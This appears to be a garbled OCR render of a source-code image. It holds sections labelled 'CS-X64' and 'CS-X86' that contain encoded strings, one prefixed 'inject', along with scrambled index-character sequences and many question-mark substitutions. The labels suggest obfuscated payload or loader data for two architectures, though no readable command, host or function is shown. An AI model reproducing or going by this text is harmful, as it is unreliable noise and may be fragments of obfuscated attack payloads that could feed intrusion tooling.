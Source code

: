 # CS-X64

injectFaBD4+/2iYxyQO9cTKfxapknB5P31jHP+tXqq38hNc2rIDU7UwVcPocHehVXBF8E7llbLyh4tUKKBfD5PQPWxvBlp8w+xTuUGsBTuw==ebszg

# CS-X86

adminfwpum@%%wthugq#twf/HcqgrtDmxjy-lfp/esff/lcwu/hefp/nfu1#uhn?aqh=gdjejeson

najsc45|????2?,R????;6,O;??10,????n;14,???t;18,????c;????22???,t;26?,a????;3??0,??k?;34?,z?;38????,d;4???2,C?;46???,o;5???0,Y;5???4,u;5??8,e;6???2,?o;66??,?G??;7???0?,X?;74???,5;????78,%;???82??,???b?;86,??8?;90,??d;94,???S;98???,L???;1???0????2,6;??10??6,S;???110,v????;114??,a;11?8,u;?1??2????2,I;1???26????,??a;13????0,?,;134??,w;1???38,???F;1?4????2,K;1????46,?d;?1?50,??L;??154,????I;1????58,8???;16????2,E;???166??,m;1???70???,C????;174?,W;17???8,??4????;|?uy?HR???msg??Ointn?ztmt?tELc???w5vt?JHDaO?vYkdB???b???z??sHfd???PzzC???H??foo?g??Bn?Y?tTNuI????zBe?jLS???o?My5GD??rvXYK??o5r????xm%dm????ebz1e????8wDE????drMf????SN?t???zLvKZ????6???Wu???t??SDfw?vvD???P??a??o5t?uAb?wI4????eW???a??dt???n,???Bkfw??UPtFz????xH?K????1??rzdw?OK??LnH?D???I???j????Mx8Nr??bEAIt????m0????Kt???CPM?rW???qp=4=fgwen




pecxs46?|2,V???;????6???,%????;1?0,5;1?4,T??;1?8,????m;?22,T;???26,w?;????30,Q??;3?4,3??;3?8,1;??42,????4;???46,Y;?50???,%;??54,X;??58,???u??;62,????Y;66,???M;70????,.?;74,.??;7???8,1;?82??,K;????86,@;??90??,B????;94?,?R;9??8,b;?10????2?,T;1??06??,y;11?0???,G;11??4??,????C;?1????1?8????,??o????;??122,?@;?126,???y;???130,u????;???13???4?,a;13???8,???2;????142,??t;?1???46,??O;150?,??x;????154,???3;158????,A;1?62,???j??;166??,M;?170,J????;174,???t;1???78,K;?182??,D????;|uyH???V??msg%i???nt5z?tmTt????ELmw5????v?TJH?D??wOvYQ??dBb??3????s??Hf?1Pzz4??Hfo??YgBn%?tT???N??XIz???BujL????S????YM?y5MD?rv.YK???o.r??xm1d???meK?z?1e@???wDEBr?Mf????RNtzb????v?KZ?TW?uty???DfwGv??DPC?o5????toA??b?w@4e?Wyd???tnuB??kfaUP????t2zxH???t1rz??OwOKx???nHD??3jMx????ANr??bjAI??tM0??LzJ????Hvstg???BmKuZ?tD=0thbtsd
